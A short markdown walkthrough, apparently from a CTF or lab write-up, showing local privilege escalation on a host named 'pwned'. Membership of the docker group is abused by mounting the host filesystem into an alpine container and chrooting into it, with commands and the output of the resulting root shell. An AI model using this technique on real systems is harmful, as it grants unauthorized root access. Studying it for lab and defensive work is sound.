

# Docker

---

## Exploit Docker Permissions

```bash
selena@pwned:/home$ id
uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
```

As we can see above, Selena is in the _docker_ group.

We can see which Docker images are on this machine

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
selena@pwned:/home$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
privesc             latest              09ae39f0f8fc        3 years ago         88.3MB
<none>              <none>              e13ad046d435        3 years ago         88.3MB
alpine              latest              a24bb4013296        3 years ago         5.57MB
debian              wheezy              10fcec6d95c4        4 years ago         88.3MB

```

According to GTFOBins we can exploit _docker_ to get a root shell



```bash
selena@pwned:/home$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# whoami
root

```
